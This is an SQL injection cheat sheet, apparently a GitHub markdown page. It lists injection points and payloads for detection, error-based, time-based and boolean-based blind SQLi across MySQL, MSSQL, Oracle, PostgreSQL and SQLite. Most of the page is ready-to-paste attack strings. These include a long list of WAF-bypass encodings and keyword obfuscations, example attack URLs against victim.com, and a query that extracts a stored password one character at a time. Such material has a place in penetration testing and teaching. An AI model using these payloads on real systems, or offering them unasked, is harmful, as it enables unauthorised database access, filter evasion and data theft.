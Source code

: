 SQL Injection (SQLi) is a critical web vulnerability where an attacker manipulates SQL queries by injecting malicious input into an application's database query. This can lead to unauthorized data access, data leakage, or even complete database compromise.

## Where to test:

* GET parameters
* POST body
* Headers (e.g., User-Agent, Referer, X-Forwarded-For)
* Cookies
* Hidden fields
* JSON/XML in API requests

  
**Quick Detection Payloads:**
```
' → does error show?
"
' or 1=1--
' and sleep(5)--
' and (select 1 from dual where 1=1)-- (Oracle)
```

# How to Identify SQLi Types:

### Error-Based SQL Injection

Test Payloads:
```
'         
"        
')         
" OR 1=1--  
' ORDER BY 100--  
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(version(), FLOOR(RAND()*2)) x FROM information_schema.tables GROUP BY x) a)-- 
```

You see SQL error messages like:

* You have an error in your SQL syntax
* Warning: mysql_fetch_assoc()
* Unclosed quotation mark after the character string
* ORA-00933: SQL command not properly ended

IF Blocked:
Try Below Techniques:
```
%27  (URL encoded ')
%22  (URL encoded ")
/**/ (inline comment to bypass filters)
/*!SELECT*/  (MySQL comment bypass)
```
## Time-Based Blind SQL Injection

### MySQL
 ```
' AND SLEEP(5)--  
" AND SLEEP(5)--  
1 AND SLEEP(5)--  
' OR IF(1=1, SLEEP(5), 0)--  
' AND (SELECT * FROM users LIMIT 1) AND SLEEP(5)--  

 ```
### MSSQL (Microsoft SQL Server)
 ```
' WAITFOR DELAY '0:0:5'--  
" WAITFOR DELAY '0:0:5'--  
1; WAITFOR DELAY '0:0:5'--  
'; IF (1=1) WAITFOR DELAY '0:0:5'--  
'; SELECT CASE WHEN (1=1) THEN WAITFOR DELAY '0:0:5' ELSE NULL END--  

 ```
### Oracle
```
 ' AND 1=1 AND dbms_pipe.receive_message('a',5)--  
' OR 1=1 AND dbms_pipe.receive_message('a',5)--  
' OR dbms_lock.sleep(5) FROM dual--  
' AND (SELECT CASE WHEN 1=1 THEN dbms_lock.sleep(5) ELSE null END FROM dual)--  
```
### PostgreSQL
```
'; SELECT pg_sleep(5)--  
1 AND pg_sleep(5)--  
' OR pg_sleep(5)--  
' OR (SELECT CASE WHEN 1=1 THEN pg_sleep(5) ELSE pg_sleep(0) END)--  
' OR 1=(SELECT 1 FROM pg_sleep(5))--
```
### SQLite
```
' AND randomblob(1000000000)--  
' OR (SELECT load_extension('non_existing'))--  # causes crash or delay
' AND (SELECT COUNT(*) FROM sqlite_master, sqlite_master, sqlite_master)--  
```

# Boolean-Based Blind SQL Injection

Test Payloads:
```
' AND 1=1--          → should behave normally (TRUE)
' AND 1=2--          → should behave differently (FALSE)

" AND 1=1--         
" AND 1=2--         

' OR '1'='1'--       → TRUE
' OR '1'='2'--       → FALSE

1 AND 1=1           
1 AND 1=2           
```

 If blocked:
**Try encoding:**
``
%27 AND 1=1--  
%27 AND 1=2--  
``
**Use case-insensitive logic:**
``
' oR 1=1--  
``
**Try comment tricks:**
``
' AND/**/1=1--  
``



Bypassing WAF: Blind SQL Injection Using logical requests AND/OR • The following requests allow one to conduct a successful attack for many WAFs

``` 
/?id=1+OR+0x50=0x50 (HEX)
/?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74 (ASCII-Based-Boolean-Check)

```
# WAF Bypassing Strings

```
` /!%55NiOn/ /!%53eLEct/
%55nion(%53elect 1,2,3)– -
+union+distinct+select+
+union+distinctROW+select+
///!12345UNION SELECT///
concat(0x223e,@@version)
concat(0x273e27,version(),0x3c212d2d)
concat(0x223e3c62723e,version(),0x3c696d67207372633d22)
concat(0x223e,@@version,0x3c696d67207372633d22)
concat(0x223e,0x3c62723e3c62723e3c62723e,@@version,0x3c696d67207372633d22,0x3c62​723e)
concat(0x223e3c62723e,@@version,0x3a,”BlackRose”,0x3c696d67207372633d22)
concat(‘’,@@version,’’)
///!50000UNION SELECT///
//UNION///!50000SELECT///
/!50000UniON SeLeCt/
union /!50000%53elect/
+#uNiOn+#sEleCt
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/!%55NiOn/ /!%53eLEct/
/!u%6eion/ /!se%6cect/
+un//ion+se//lect
uni%0bon+se%0blect
%2f%2funion%2f*%2fselect
union%23foo%2Fbar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/–/union/–/select/–/
union (/!/*/ SeleCT */ 1,2,3)
/!union/+/!select/
union+/!select/
//union//select//
//uNIon//sEleCt//
///*!union*////!select///
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
+UnIOn%0d%0aSeleCt%0d%0a
UNION/*&test=1*/SELECT/*&pwn=2*/
un?+un//ion+se//lect+
+UNunionION+SEselectLECT+
+uni%0bon+se%0blect+
%252f%252a*/union%252f%252a /select%252f%252a*/
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f%2funion%2f%2fselect%2f%2f
union%23foo%2Fbar%0D%0Aselect%23foo%0D%0A
/!UnIoN*/SeLecT+`
```
## Bypass with Comments
SQL comments allow us to bypass a lot of filtering and WAFs.

`
Code :
 http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--
`
## Case Changing
Some WAFs filter only lowercase SQL keyword.
Regex Filter: /union\sselect/g
`
http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--
`

> **Don't Blindly Paste the Payloads, First Fingerprint the application and understand then use the payloads accordingly if any WAF OR Firewall there try Different Test cases discussed above to  Bypass the the WAF**

---


References:

https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://owasp.org/www-community/attacks/SQL_Injection
https://portswigger.net/support/sql-injection-bypassing-common-filters
https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/BasicObfuscation.wiki
https://johnermac.github.io/notes/ewptx/sqlievasion/
https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html
https://www.owasp.org/index.php/Testing_for_NoSQL_injection
